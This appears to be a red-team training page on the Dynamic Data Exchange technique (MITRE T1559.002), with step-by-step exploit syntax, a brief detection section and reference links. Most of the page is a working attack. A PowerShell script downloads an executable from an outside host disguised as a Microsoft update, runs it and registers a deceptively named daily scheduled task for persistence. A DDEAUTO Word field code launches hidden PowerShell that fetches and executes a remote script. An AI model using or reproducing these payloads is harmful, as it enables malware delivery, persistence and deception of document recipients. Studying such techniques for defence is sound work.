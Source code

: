 # [Dynamic Data Exchange](https://attack.mitre.org/techniques/T1559/002/)

## Exploit Syntax: 

1. Create a txt file named `stage2.txt`

    ```sh
    subl ~/cyber_gambit/resources/malware/stage2.txt
    ```
2. Paste in the powershell below.

   ```powershell
   $url = "http://cpuprok.com/en-us/microsoft-365/update"
   $outpath = "$env:USERPROFILE\msiexec.exe"
   iwr -uri $url -outfile $outpath
   start-process -filepath $outpath
   $action = New-ScheduledTaskAction -Execute $outpath
   $trigger = New-ScheduledTaskTrigger -Daily -At 9am
   Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "MSUpdateCheck" -Description "This task grabs Microsoft Official Updates."
   ```
  > NOTE: Any varibles above can be changed out. 
3. Open a Microsoft Word Document

4. Navigate to the tool bar the at top and select the insert tab

   ![pic](../../Resources/gifs/Insert_Tab.gif)

5. Under Quick Parts dropdown select Field then press ok.

   <img src="/Resources/gifs/Step2_Adding_Object-720p.gif" alt="dog" width="50" height="60" title="dog">


6. Right Click toggle field codes and paste the contents below within the `{}` :
    ```powershell 
    { DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord.exe\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://[webserver ip:port]/[saved ps1 file].ps1');powershell $e # " "for security reasons"}
    ```
    > NOTE: Nake sure to set your url and file name 

   <img src="/Resources/gifs/Step3_Adding_DDEAuto-720p.gif" alt="addingobject" width="800">

7. Save the document.
---
## Detection Method

1. Investigate embedded code within `Microsoft Office` applications
Searching for `winword.exe` with the `/dde` flag in the command line should indicate a DDE execution. 

2. The `winword.exe` event PID should be the PPID of another process, demonstrating that this DDE flag launched another process (in our case, it launches powershell)


---
## Resources    
https://www.securitysift.com/abusing-microsoft-office-dde/
https://1337red.wordpress.com/using-the-dde-attack-with-powershell-empire/
https://blog.2code-monte.co.uk/2021/03/17/creating-a-cyber-attack-part-9-making-a-malicious-word-document-using-dde-and-powershell/
